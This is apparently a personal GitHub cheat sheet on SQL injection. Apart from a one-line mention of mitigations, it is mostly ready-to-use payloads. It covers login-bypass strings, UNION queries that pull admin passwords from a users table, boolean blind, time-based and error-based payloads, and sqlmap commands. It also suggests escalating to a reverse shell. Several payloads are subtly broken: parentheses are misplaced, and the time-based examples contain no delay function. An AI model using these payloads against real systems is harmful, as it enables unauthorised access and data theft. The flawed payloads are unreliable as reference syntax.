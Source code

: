 
# SQL Injection

---

SQL Injection is a vulnerability that permits the attacker access private data on DBMS, is a 
part of **OWASP TOP 10** on injection section a side of XSS and Command Injection, because is a 
vulnerability injection based, can be considered a critical vulnerability because permits the 
attacker exfiltrate data from DBMS and depending on the case also permits the attacker schedule
to a reverse shell permiting remote code execution.

Thinking on web context, SQLi can occurs on everywhere input or data can be sended to database
for example: inputs data camps without correct sanitization on backend, Cookies, poor
authentication check, POST arguments and GET arguments

Understand how this kind of vuln occurs we can implement mitigations as a good sanitizer on 
backend, strong authentication methods such as JWT or OAuth.

---

## Exploitation proccess

1. Identity And Validate (Generally in GET/POST Requests and parameters and Inputs)
2. Discover the Database name
3. Discover the Tables name
4. Discover the Columns name
5. Exfiltrate data from the Database
6. Extra: Try to get a reverse shell or exploit other vulns as XXE and SSRF

---
# Tips and Tricks


**MySQL, Postgres and MSSQL**

- INFORMATION_SCHEMA
    .schemata
    .tables
    .columns

**Extra: Postgress**
- pg_catalog
    .pg_tables
    .pg_catalog


```sql
ORDER BY <1-5...>
SELECT NULL, NULL...

CONCAT(column1, ":", column2)
GROUP_CONCAT(column SEPARATOR ";")  <- useful to blind sqli: data1;data2;data3
SUBSTR(data or (query), 1, 1)
SELECT SLEEP(5)

IF((Condition), <case_true>, <case_false>)
or
SELECT CASE WHEN (Condition) THEN <case_true> ELSE <case_false> END
```

---

## SQLi Types

- #### Broken Access Authentication
    *Abuse from SELECT logic, this kind of query generally utilize WHERE clause and Logic which can be modified to bypass the logins screens*

```mysql
' or '1'='1'-- -
1 or 1=1-- -
admin' and '1'='1 
...
```

---

- #### Union Attacks
    *On this context generally the data which is sent from back-end is a index that will display some data correspondent, as a "SELECT" but with much more columns.... we can use some payloads to identify the quantity of columns that are selected and after this start to enumerate, because where the data selected should be, the new malicious query will return our data on this places*
    
```mysql
# Identifying

' ORDER BY <1-5...> 
' UNION SELECT NULL, NULL, NULL, ... 
```

```mysql
#Exploiting

' UNION SELECT NULL, c_password, NULL FROM tb_users WHERE c_username = 'admin'#
' UNION SELECT CONCAT(c_username, ':', c_password) FROM tb_users WHERE c_username = 'admin'-- -
```

---

- #### Blind SQL Injection With Conditional Responses
    *On this context we need to use conditions or as i like to say... yes or not questions based... such as... the first letter of data extracted is f? Using this logic and some select concatenations statements to make the query run.*

```mysql
#Identifiyng

data' AND SELECT IF((1=1), true, false)-- -
data' UNION SELECT IF((1=1), true, false)-- -
data' UNION SELECT IF((1=1), true, false) %23
```

```mysql
#Exploiting

' AND SELECT IF(SUBSTR((SELECT database(), 1, 1) = 'a'), true, false)-- -

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false) 

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false) %23
```

---

- #### Time-Based Blind SQL Injection With 
    *its a vulnerability that uses query time functions to spot the flaw the consequently remount across database*

```mysql
#Identifying

' OR SLEEP(5)
admin' and SLEEP(5)
```

```mysql
# Exploiting
' AND SELECT IF(SUBSTR((SELECT database(), 1, 1) = 'a'), true, false)-- -

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false)-- -
```

---

- #### SQL Injection Error Based
    *Diferently the past vulnerabilities, this kind have a feedback or well saying a error message after the query try.*

```mysql
#Identifying
 ' 
 \
 ' union select 1, 2, 3... %23    
```

```mysql
#Exploiting 
 ' AND 1=CAST((SELECT 1) AS INT) %23
 ' AND 1=CAST((SELECT c_user FROM t_users) as INT)-- -
 ```

---

##### SQLMAP

The most popular tool to exploit SQL Injection, comes for default on kali linux.

```bash
sqlmap -u http://<url> --random-agent 
sqlmap -u http://<url> --random-agent --delay --threads=1 --level=1 --risk=1
```

